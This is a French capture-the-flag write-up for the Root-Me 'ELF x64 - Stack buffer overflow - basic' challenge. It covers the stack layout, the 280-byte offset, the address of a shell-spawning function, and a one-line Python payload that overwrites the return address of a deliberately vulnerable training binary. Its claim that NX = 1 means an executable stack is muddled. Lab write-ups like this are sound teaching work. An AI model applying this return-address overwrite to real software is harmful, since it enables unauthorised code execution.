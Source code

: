# ELF x64 - Stack buffer overflow - basic

| Auteur/Autrice | Difficulté | Points |
|----------------|------------|--------|
|     [Arod](https://www.root-me.org/Arod?lang=fr)       | Facile |   20    |     

## Sommaire
- [Partie 1 : Analyse de l'exécution](https://github.com/0xS3GFAULT/CTF-WriteUps_Fr/blob/main/rootme/App%20-%20Syst%C3%A8me/Facile/ELF%20x64%20-%20Stack%20buffer%20overflow%20-%20basic/readme.md#partie-1--analyse-de-lex%C3%A9cution)
- [Partie 2 : Analyse statique du code](https://github.com/0xS3GFAULT/CTF-WriteUps_Fr/blob/main/rootme/App%20-%20Syst%C3%A8me/Facile/ELF%20x64%20-%20Stack%20buffer%20overflow%20-%20basic/readme.md#partie-2--analyse-statique-du-code)
- [Partie 3 : Exploitation du buffer overflow](https://github.com/0xS3GFAULT/CTF-WriteUps_Fr/blob/main/rootme/App%20-%20Syst%C3%A8me/Facile/ELF%20x64%20-%20Stack%20buffer%20overflow%20-%20basic/readme.md#partie-3--exploitation-du-buffer-overflow)

## Session SSH

```ssh -p 2223 app-systeme-ch35@challenge03.root-me.org```

Password : ```app-systeme-ch35```

## Partie 1 : Analyse de l'exécution

Comme d'habitude, petit **checksec** du fichier **./ch35** avant de l'exécuter : 

![Screenshot](./assets/images/checksec_ch35.png?raw=true)

Pas de **canary** ni de **PIE** et la pile est exécutable (**NX** = 1) mais l'**ASLR** est activé. Heureusement pour nous, il n'aura aucun effet sur le programme puisque **PIE** = 0. L'exécutable est codé sur 64 bits, donc les adresses sont codées sur 8 octets.

Exécutons le programme : 

![Screenshot](./assets/images/exec_ch35.png?raw=true)

Le programme attend que nous saisissions quelque chose. Nous tapons alors *azerty* et il nous affiche *"Hello azerty"* avant de se fermer. Bon bah c'est tout...

Nous n'avons pas spécialement beaucoup d'informations, mais le code source en langage C du programme compilé nous est donné ! Analysons-le.

## Partie 2 : Analyse statique du code

![Screenshot](./assets/images/code_ch35.png?raw=true)

3 éléments sont déclarés dans la fonction **main** aux lignes 18 et 19 mais rien n'est initialisé :

```
char buffer[256];
int len,i;
```

Voici la représentation simplifiée de la pile : 

<pre>
----------
| buffer | (256 octets)
----------
|  len   | (8 octets)
----------
|   i    | (8 octets)
----------
|  rbp   | (8 octets)
----------
|  ret   | (8 octets)
----------
</pre>

Le **ret** dans la pile représente en fait l'adresse de la prochaine instruction à exécuter une fois l'appel du **main** terminé. C'est une instruction qui peut se traduire en assembleur par :

```
pop rip
jmp rip
```

Ce qui nous permettrait de rediriger le flux d'exécution là où on veut !

Nous voyons assez facilement que la fonction **scanf** à la ligne 21 permet d'écrire bien plus que les 256 octets prévus pour le buffer.
De ce fait, il serait possible de réecrire l'endroit où se situe l'adresse lors de l'exécution du **ret**. Si nous regardons la pile d'un peu plus près, nous comprenons que ```256 + 8 + 8 + 8 = 280 octets ``` sont nécessaires avant d'arriver à l'endroit qui nous intéresse.

Bon tout ça c'est bien beau, mais on écrit quoi dans cet endroit ? Quelle adresse ? L'adresse de la fonction **callMeMaybe** qui permet de faire apparaître un shell **/bin/bash** !

Pour connaître son adresse, plusieurs méthodes sont possibles. Puisque l'exécutable est *not stripped*, les symboles sont toujours présents. Nous pourrions en extraire une adresse grâce à la commande ```nm```:

![Screenshot](./assets/images/nm_ch35.png?raw=true)

L'adresse à écrire est donc ```0x00000000004005e7```

Nous avons tous les éléments pour exploiter notre buffer overflow.

## Partie 3 : Exploitation du buffer overflow

A l'aide du langage de programmation Python, nous pouvons écrire le payload suivant : ```(python -c "print('A'*280+'\xe7\x05\x40\x00\x00\x00\x00\x00')";cat -) | ./ch35```

Il ne faut pas oublier le ```cat -``` qui permet de bloquer l'entrée standard **stdin** car le shell **/bin/bash** se refermera aussitôt.

Il n'y a plus qu'à se servir :

![Screenshot](./assets/images/exploit_ch35.png?raw=true)

:)
